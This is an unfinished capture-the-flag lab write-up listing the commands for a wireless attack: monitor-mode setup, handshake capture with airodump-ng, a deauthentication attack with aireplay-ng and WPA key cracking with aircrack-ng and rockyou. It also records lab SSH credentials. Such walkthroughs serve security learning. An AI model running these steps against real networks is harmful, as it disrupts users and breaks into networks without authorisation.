 # Not Finished

## Commands Used

1st terminal

ssh glitch@[IP_ADD]
password: Password321

iw dev

a interface é o wlan2

sudo iw dev wlan2 scan

sudo ip link set dev wlan2 down
sudo iw dev wlan2 set type monitor
sudo ip link set dev wlan2 up
iw dev

in the 2nd terminal


ssh glitch@[IP_ADD]
password: Password321


1st terminal

sudo airodump-ng wlan2 -> flag (What is the SSID and BSSID of the access point? Format: SSID, BSSID)


sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2 -> flag (What is the BSSID of our wireless interface?)


in the 2nd terminal

sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2

sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap -> flag (What is the PSK after performing the WPA cracking attack?)

wpa_passphrase MalwareM_AP 'ENTER PSK HERE' > config

iw dev -> flag (What is the BSSID of the wireless interface that is already connected to the access point?)

